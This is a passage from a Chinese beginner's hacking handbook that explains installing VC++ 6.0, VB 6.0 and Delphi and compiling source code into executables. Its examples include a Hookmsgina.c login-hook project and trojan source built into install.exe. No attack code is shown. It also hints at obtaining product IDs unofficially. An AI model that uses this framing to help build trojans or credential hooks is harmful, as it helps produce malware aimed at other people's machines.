选择后来到如图 3 的界面，点击“下一步”，来到如图 4 的界面，我们选择“接受协议”。继续“下一步”，来到图 5 的界面，直接“下一步”来到如图 6 的界面，这里选择“安装 Visual C++6.0 中文企业版”，然后点“下一步”指定安装路径，如图 7。继续“下一步”，进入分步安装阶段，就是分别装上 VC6.0 下的一个个子程序，如图 8。点击“继续”，选择第一个“Typical”按钮，意思是典型安装，下面的“Custom”按钮为自定义安装，如图 9。

一切设置完毕后，程序开始安装。安装结束后，会弹出如图 10 的提示，单击“确定”就安装成功了。


接下来进入其它客户工具的安装阶段，如图 11。如果要安装出现的工具，点击下面的“安装”按钮就可以安装。不过这里我们不需要安装太多暂时还用不上的工具，直接点“下一步”。


接着来到“服务器安装”界面，如图 12。如果你要“安装服务器组件”就可以进行选择，我直接点“下一步”直到最后安装完成。


现在一个基本的 VC 编译环境就安装完毕了，打开“开始”菜单，能看到有“Microsoft Visual C++ 6.0”项目，如图 13。

选择“Microsoft Visual C++ 6.0”，VC 成功运行，如图 14。

现在我们的电脑上一个能编译 C 和 C++ 源码的环境就搭建成功了，最后提示读者，最好装在 Windows2003 或 Windows2000 系统，而不要在家用系统 WindowsXP 下安装，避免出现不可知的错误。


## 第7章

## 四十七、从源代码到黑客利器

这一章是接前一章安装好 VC6.0 环境的后续，开始把一段源代码编译成可执行的 exe 程序。不过在此之前我们先来认识一下什么是源代码，看看源代码的标准解释：

> 源代码就是源程序，是指未编译的文本代码，是一系列人类可读的计算机语言指令。计算机源代码的最终目的是将人类可读的文本翻译成为计算机可以执行的二进制指令，这种过程叫做编译，通过编译器完成。

源代码主要有如下两种作用：

- 生成目标代码，即计算机可以识别的代码。
- 对软件进行说明，即对软件的编写进行说明。

为数不少的初学者，甚至少数有经验的程序员都忽视软件说明的编写，其实这部分虽然不会在生成的程序中直接显示，也不参与编译，但是对软件的学习、分享、维护和软件复用都有巨大的好处。因此，书写软件说明在业界被认为是能创造优秀程序的良好习惯，一些公司也硬性规定必须书写。

需要指出的是，**源代码的修改不能改变已经生成的目标代码，如果需要目标代码做出相应的修改，必须重新编译。**


图1


图2

用一个可能不太准确但便于理解的说法来解释什么是源代码吧。我认为可以称为“文本格式的程序代码”，就好像音乐中的乐谱一样，由 1234567 组成。编译源代码相当于把乐谱演奏出来为我们能听见的乐曲。如图 1，是一段源代码的屏幕截图，我们可以看到它由字母、数字、符号等构成，排列规整，清晰明了。

不过这仅仅是一份较大程序源代码的一部分，一个完整的 VC 程序源代码中包含数个代码相关的文件，如图 2。

这些文件的后缀基本上都是我们以前没见过的，如 .cpp、.def、.dsp、.dsw、.ncb、.opt、.cpp、.h 等，下面是相关后缀的简介：

| 后缀 | 说明 |
|---|---|
| .rc | 资源文件，包括比如对话框、菜单、图标、字符串等资源信息 |
| .h | 头文件，定义程序的功能 |
| .cpp | 源文件，即程序功能的具体实现 |
| .def | 模块定义文件，用来定义从 DLL 导出的函数 |
| .opt | 工程关于开发环境的参数文件，如工具条位置等信息 |
| .aps | 资源辅助文件（AppStudio File），二进制格式，一般不用去管它 |
| .clw | ClassWizard 信息文件，实际上是 INI 文件格式；ClassWizard 出问题时可手工修改，若不存在则会提示是否重建 |
| .dsp | DeveloperStudio Project 项目文件，文本格式，不熟悉时不要手工修改 |
| .DSW | DeveloperStudio Workspace 工作区文件，特点与 DSP 类似 |
| .plg | 编译信息文件，即编译时的 error 和 warning 信息文件（实际上是 html 文件）；可在 Tools -> Options 中控制其生成 |
| .hpj | Help Project，生成帮助文件的工程，用 Microsoft Help Compiler 处理 |
| .mdp | Microsoft DevStudio Project，旧版本项目文件，打开时会提示是否转换为新的 DSP 格式 |
| .bsc | 浏览项目信息文件；若不用 Source Brower，可在 Project Options 中去掉 Generate Browse Info File 以加快编译 |
| .map | 执行文件的映像信息记录文件；除非对系统底层非常熟悉，一般用不着 |
| .pch | Pre-Compiled File，预编译文件，可加快编译速度，但文件较大 |
| .pdb | Program Database，记录程序相关数据和调试信息，调试时有用 |
| .exp | 编译 DLL 时生成，记录 DLL 文件中的一些信息，一般用途不大 |
| .ncb | 无编译浏览文件（no compile browser），自动完成功能异常时可删除，build 后会自动生成 |

这些文件都可以用记事本打开，内容都是程序的代码，这些后缀的源代码文件就是生成 exe 程序的各个构成部分。

对源代码有了基本的认识之后，我们开始编译源代码为程序。在编译方面要多说几句，编译程序的过程是比较简单的，但是成功的前提是源代码必须完整无误。这一点对于菜鸟来说是最大的难度，因为网上公布的一些重要漏洞或工具的源代码，绝大部分被刻意修改过，会有 bug 的存在。如果不熟悉源代码的语言，是无法 debug 的。

现在我们已经有了一段完全正确并完整的代码，按照以下几个步骤就可以将其编译为程序。

- 第一步：打开 VC++6.0，如图 3。

### 二、创建和管理工程项目

第二步：依次选择“文件”－“新建”－“工作区”－“空白工作区”，然后为这个工作区起一个名字并选择存放路径，如图 4，最后点击“确定”。


> 之所以要用工作区是因为可以在工作区中新建很多工程，每个工程可以独立编译、连接、执行，互不干扰。而在学习 C 语言过程中，时常要编译一些小程序，把它们按工程都存放在一个工作区里，非常方便于查看、执行和管理。


第三步：右击刚才新建的工作区，选择“添加新工程到工作空间”，如图 5。

在弹出的选择窗口中选择“Win32 Console Application”，然后指定一个工程名。通常用程序的名称命名。


这里因为我是测试，就命名为“test”，这时点击“确定”，如图 6。

然后依次点击“完成”－“确定”，如图 7。


图 7

建立成功后，会看到在工程下有三个文件夹，分别是“Source File”“Header Files”和“Resource File”，中文意思分别是“源文件”“头文件”和“资源文件”，如图 8。

第四步：编辑源文件，在新建工程的“Source File”目录上点击鼠标右键，选择“添加文件到目录”，如图 9。

在弹出的文件选择框中，把下拉菜单设定为“C++ Source File”，表示添加源文件。后缀名为 .c 或 .cpp 的都属于源文件，如图 10。

把所有的源文件都分别添加进目录，如图 11，我们添加了两个，一个名为 Hookmsgina.c，一个名为 StdAfx.cpp。


图 8


图 9


图 11


图 10

第五步：编辑头文件，按上一步的方法，在“Header Files”目录上点击鼠标右键，在弹出的选择框下拉菜单选择“C++ Include Files”，添加头文件类型的文件，同样要把该类型的文件全部添加到目录下，如图 12。

第六步：编辑资源文件，操作方法一样，在“Resource File”目录上点击鼠标右键，在弹出的选择框的下拉菜单中选中“资源文件”选项，如图 13。有的工具是 cmd 下的，这种类型的程序基本是没有资源文件的，这里就不用添加。

第七步：调试源代码。依次选择“构建”→“开始调试”→“Go”，如图 14。如果弹出如图 15 的提示，选择“是”。如果源代码无误，就会在之前新建工程时指定路径的 debug 目录下生成 test.exe 文件，如图 16。


如果有错误，会有出错提示，需要把代码 debug 后再进行调试生成，反复如此直到代码不出错并正确生成 exe 文件为止。以上就是最简单的程序编译过程，VC 是一个非常庞大的工具，学会熟练地使用它需要相当长的时间，没有速成的办法。


图12

图13

图14

图15

图16

## 四十八、VB6.0企业版环境搭建

C 语言系列在目前的编程代码中无疑是占据着统治地位，但是其它的编程语言一样不能忽视。如果从纯应用的角度来看，或许其它的编程语言是更好的语言，比如除了 C 语言系列之外认知度最高的 VB 编程语言。

我们先对比一下两者的不同之处：

**VB 与 C++ 的区别：**

**C++ 的指令基本上围绕着如何在实现软件算法目的的同时，让设计出来的程序执行速度最高，在各种硬件上都能执行。**

C++ 追求的是速度第一性，软件在各种平台的通用是第二性，而易学易用性基本不在其考虑范围，所以 C++ 是最难学和最难精通的编程语言。

**VB 的目的是如何让用户在最短的时间内掌握并精通一门编程语言，在最短的时间内把需要的目的用编程语言编写出来。**

易学易用性是其第一性，软件设计的高效性是其第二性。至于设计出来的软件执行速度，及在各种不同的计算机系统上能否运行，它是基本上很少考虑这种问题的。

**VB 最大的优势是它的软件设计速度和效率非常高。** 一个软件如果分别用 VB 和 C++ 都能设计，假如用 VB 设计的那个工程师一个月可以完成这项工作，那么用 C++ 设计的那个工程师起码要 4 个月以上才能设计出来。由此可以知道，**设计的高效率和低成本是 VB 的最大优势。**

前置知识学习完毕，下面学习如何在电脑上安装 VB。我们这里选择的是 VB6.0 企业版，先提醒大家一下，安装编程工具时，不要觉得这类工具都很大（动辄数百 M）而去网上下载那些只有几 M 的所谓“精简版”。这种“精简版”的编程工具去掉了很多函数，很多功能会无法实现。试想：一个只有原版百分之一大小的工具如何能实现原版所有的功能而不出问题呢？


图 1

废话不说了，赶快安装体验下吧。在安装文件目录或光盘中找到 setup.exe 进行双击，执行程序进入引导安装界面，如图 1。点击“下一步”，选择“接受协议”，如图 2。继续“下一步”，这一步比较关键，需要填入产品 ID 号。我们想办法获得一个 ID 号，输入后如图 3。

图2

图3

图4

图5

图6

VB6.0 还是只安装服务器端。现在的大型编程工具都具备 C/S 功能，可以多人共同开发一个程序项目，程序员的主机作为客户机，而最后大家的工作成果都存放在服务器上。

继续“下一步”，程序询问是否安装全部的……

图7

这里我们选择“安装 Visual Basic 6.0 中文企业版”，如图4。继续“下一步”，来到如图5的界面，单击“继续”，出现如图6的界面。这里可以修改安装路径，我们选择“典型安装”，程序便开始将 VB6.0 安装到硬盘。经过漫长的等待，安装结束后会提示重新启动，如图7。

重启后会提示你安装文档和示例，这个是可以不用安装的，点“下一步”然后点击“取消”。在提示安装其它工具时不要选择安装，比如图8这个“安装 MSDN”，一般没什么用，直接点“下一步”。最后来到如图9的界面，点击“完成”后软件将会自动注册成功。然后从桌面依次选择“开始”→“程序”→“Microsoft Visual Basic 6.0 中文版”就可以打开 VB6.0，如图10。环境安装完毕，以后我们就可以学习如何编译 VB 源码为程序了。

图10

图9

图8

## 四十九、使用VB把黑客工具代码编译为程序

可能很多菜鸟朋友看到一大堆的程序源代码就会头晕。的确，对于没有编程基础或者是刚刚开始接触编程的朋友来说，看源代码是一件痛苦的事。好在现在我们还只是菜鸟，还不用接触这么深的编程知识，只需要接触最基本的如何将这堆代码变成可执行文件就行了。

图1

不论你要编译的程序是用什么语言编写的，即不论是 DELPHI、VC 还是 VB 编写出的代码，在转换成程序的过程中，其操作都是相当简单的。但是保证程序是完全没有错误，这才是最重要的。如果没有编程的功底，拿到一段有 bug 的程序，对于小菜来说是无法编译成功的。套用一句歌词，正是“编译总是简单，debug 太难，不是你的就别再勉强”。就是这样的，不懂编程你也可以成为一个黑客，但你绝对成不了一个优秀的黑客，努力吧。

先把 VB 源码包下载到本地解压缩，会看到目录里有一堆一般我们接触不到的后缀文件，比如 bas 后缀、vbp 后缀文件等等，如图1。

大家要知道，一个程序就好像一个功能齐全的小公司，每个部门负责各自的事务，比如程序会有界面、有帮助信息、有文字、有主执行的程序部分等。而这些都是 VB 源码程序，有的表示窗体，有的表示主程序部分，具体各后缀名对应的程序分类请参考如下资料：

| 扩展名 | 说明 |
|---|---|
| `.bas` | 基本模块 |
| `.cls` | 类模块 |
| `.ctl` | 用户控件文件 |
| `.ctx` | 用户控件的二进制文件 |
| `.dca` | 活动的设计器的高速缓存 |
| `.ddf` | 打包和展开向导 CAB 信息文件 |
| `.dep` | 打包和展开向导从属文件 |
| `.dob` | ActiveX 文档窗体文件 |
| `.dox` | ActiveX 文档二进制窗体文件 |
| `.dsr` | 活动的设计器文件 |
| `.dsx` | 活动的设计器的二进制文件 |
| `.dws` | 部署向导脚本文件 |
| `.frm` | 窗体文件 |
| `.frx` | 二进制窗体文件 |
| `.log` | 加载错误的日志文件 |
| `.oca` | 控件类型库缓存文件 |
| `.pag` | 属性页文件 |
| `.pgx` | 二进制属性页文件 |
| `.res` | 资源文件 |
| `.tlb` | 远程自动化类型库文件 |
| `.vbg` | Visual Basic 组工程文件 |
| `.vbl` | 控件许可文件 |
| `.vbp` | Visual Basic 工程文件 |
| `.vbr` | 远程自动化注册文件 |
| `.vbw` | Visual Basic 工程工作空间文件 |
| `.vbz` | 向导发生文件 |
| `.wct` | WebClass HTML 模板 |

图2

编译时最主要的是其中的 `vbp` 后缀文件，如图2，它就相当于我们安装程序时的 `setup.exe`。在安装了 VB 环境后，双击它就会自动打开 VB 加载它，不用像 VC 中那样还需要手工添加文件。

打开后选择“文件”→“生成 `xx.exe`”，`xx` 是这个程序的名字，如图3。

图3

这时 VB6.0 会开始生成 exe，如果源代码中有错误，会出现提示，并且会把出错的位置用背景色显示，在弹出的提示窗中还会有错误类型，如图4。

如果出现预编译未通过，说明源代码中出现错误，需要修改。如何修改就无法在本书中介绍了，那完全是编程的事。如果编译通过，就会在指定的路径生成程序。点击生成“工程窗口”下面的“选项”按钮，能对即将生成的文件进行一些配置，主要有产品名、公司名、版权、版本号等信息，如图5。

图4

配置好后点击“确定”，很快程序就生成好了。在程序上按鼠标右键选择“属性”，可以看到我生成时填入的产品名称 test 及其它信息，如图6。

在生成后，还需要进行功能性测试，切不要觉得在生成时的编译成功就等于生成的程序一定是正确的。因为生成时的编译检测只代表语法上的正确，并不代表功能上的正常，只有当功能完全正常而运行没有错误，这个程序才算是真正编译完成了。

图5

图6

## 五十、DELPHI编译环境架设

DELPHI 相比前面介绍的 VB、VC 两种程序开发工具，算得上是后起之秀了，属于第四代程序编译工具。前面介绍的 VB 实际上已经停止开发了，所以如果现在有朋友想学习 Windows 下的程序开发，建议从 DELPHI 学起。

另外，如果要学习编程，个人觉得从脚本学起，然后学习 C 是比较好的。现在虽然编程语言种类繁多，比如 VB、DELPHI，还有一段时间比较流行的“易语言”，它们都只能编写 Windows 下使用的程序，而只有 C 能编写既能适用于 Windows，又能适用于 Linux 等其它操作系统的程序。用专业的词来说：C 语言是跨平台的，而 VB、DELPHI 等则不是。不过 C 语言的学习要更困难一些，如何选择，请读者朋友们根据自己的情况来判断吧。

言归正传，下面开始安装 DELPHI，这次我们选择的是 DELPHI 企业版。安装这类编程工具，个人的建议是尽量选择功能全面的版本，不要选什么“精简版”“个人版”等等，这些“残缺”的版本在使用时都会出错，对于我们新手来说，可能找了半天原因也无法解决，其实就是程序本身没装对而存在缺陷。

废话不说了，赶快安装体验下吧。在安装文件目录或光盘中找到 `setup.exe` 进行双击，执行程序进入引导安装界面，如图1。

图1

在进度条到达最右边后，来到如图2的界面，这里需要输入注册码。

图2

图3

输入后单击“NEXT”，在验证注册码成功后来到如图3的“许可协议”界面，我们选择第一个。

继续“NEXT”，来到如图4的界面，需要选择安装模式，一共有三个英文选项：

- Typical：典型
- Compact：简洁
- Custom：自定义安装

我们选择第一个“典型安装”后点击“NEXT”，来到如图5的界面，这里需要选择你电脑上安装的 Office 软件的版本。现在一般都是使用的 Office 2000，我们选择后单击“NEXT”。

这时来到如图6的界面，这一步是设置安装路径。DELPHI 安装路径的设置和一般的程序不同，它可以设置把不同的部分安装在不同的目录。比如在多人开发时要用到的共享目录、存放数据的目录、主程序目录等，都可以分开放置，这从安全性上无疑是有好处的。这里我们为了快速安装好，直接保持默认值就行了，然后单击“NEXT”。

最后一直继续点击“NEXT”，直到出现如图7的安装进度界面就 OK 了。

现在耐心等待程序安装完毕，然后点击“完成”之后会提示重启。重启之后运行 Borland DELPHI 7 目录下的 DELPHI，如图8。

图4

图5

图6

图7

图8

图9

在第一次运行时，会弹出提示框让你注册程序，一路点击“NEXT”，直到出现如图9的界面。

这时输入序列号进去，然后单击“NEXT”进行验证。正确后进入注册引导界面，如图10，这里一定要选择第二项，“使用电话或网站注册”。

然后点击“NEXT”完成注册。虽然在登录时还会提示未注册，但是 DELPHI 已经能正常地打开了，如图11。

为了使菜鸟朋友能更快地熟悉 DELPHI 的操作界面，我们可以利用汉化补丁对一部分菜单进行汉化。到网上下载个对应版本的 DELPHI 汉化补丁包，如图12，里面有 bin 和 system32 两个目录。

把压缩包内 bin 目录下的文件替换 DELPHI 安装目录下的 bin 目录下的文件；再把 system32 目录下的文件解压到你系统目录 system32 目录下替换原文件，注意这时你的 DELPHI 要是关闭的。

图10

图11

图12

图13

再次进入 DELPHI，汉化后的效果如图13，现在菜单都变成了汉字，对于我们初次学习 DELPHI 的读者来说，界面显得亲切多了。

## 五十一、用DELPHI编译程序

编译 DELPHI 程序与之前介绍的 VB 源码、VC 源码的编译并没有区别，只要源码正确无误，编译成执行文件只是很简单地点几个按钮，像安装程序一样容易。如果源码有 BUG，对初学者来说就是难如登天。

首先介绍一下一份 DELPHI 编写的程序源码中包括的一些主要文件，这里以一份木马程序的源代码为例，可以看到其包括有 pas、dcu、dpr 等后缀的文件，如图1。

DELPHI 中的主要文件包括：

| 后缀 | 说明 |
|---|---|
| dpr | 工程文件 |
| dfm | 窗体文件 |
| pas | 单元文件 |
| cfg | 配置文件 |
| dof | 项目选项文件（一般没用） |
| dcu | compiled units 文件，编译后的单元文件 |
| res | 资源文件 |
| ddp | DELPHI Diagram Portfolio 的简写，用来保存 Code Editor 中的 Diagram 信息 |

当我们拿到一份代码并且修复了所有的 BUG 之后（多次编译程序的过程中都反复强调这一点，这才是重中之重），编译也是相当简单的。

首先找到其中 dpr 后缀的文件，这个文件是工程文件，相当于安装程序时的 `setup.exe`。在安装了 DELPHI 后，双击它，DELPHI 就会打开源码。

然后在工具栏选择“运行”→“运行”，如图2。如果没有出错提示，在源代码的目录下就会生成 exe 程序了。

如图3，就是 `install.bpr` 编译后的程序 `install.exe`。如果程序存在问题，编译无法通过，对菜鸟来说实在是噩耗，只能回头学学编程的基本功了，慢慢分析代码，找出解决问题的方法吧。

经过本章的介绍，目前最常见的三种程序编写工具：VC、VB、DELPHI 的编译都介绍过了，可能有的读者朋友还意犹未尽，觉得描述太简单。这毕竟是一本网络安全书籍，编程方面实在无法喧宾夺主，着墨太多。如果你对编程非常感兴趣，可以去书店看看，这方面的书籍在任何一个书店都有很多。对于本书中关于编程方面的描写，有不完善之处还请多多包涵。

图3

- 出品人：非安全
- 作者：彭超（PPB）
- 编辑：Python、LCX、空气、眼镜猴、冰的原点、浪迹天涯、10086
- 特约编辑：风飘雨、小迷、XApache、[zero]、张宇、青蛙王子、小龙猪
- 光盘编辑：眼镜猴、猪哥靓
- 平面规划：飞越迷雾
- 网站：www.nohack.cn
- 网站编辑/管理：空气、Cass
- 发行：段东霞
- 电话/传真：010-68867436，010-86921991
- 邮购：逍遥小子 924073360（QQ）
- 形式：1CD + 1手册，手册仅随光盘一同赠送，不得单独销售。
- 版权声明：图文版权所有，未经同意，不得转载。作者投稿文章，文责自负。
- 投稿信箱：nohack@21cn.com
- 邮购查询：hope_wyn@sina.com
- 光盘投稿/交流信箱：CD@nohack.cn
- 在线商城：book.nohack.cn
- 淘宝专卖店：taobao.nohack.cn
- 拍拍网：paipai.nohack.cn
- 百度有啊：youa.nohack.cn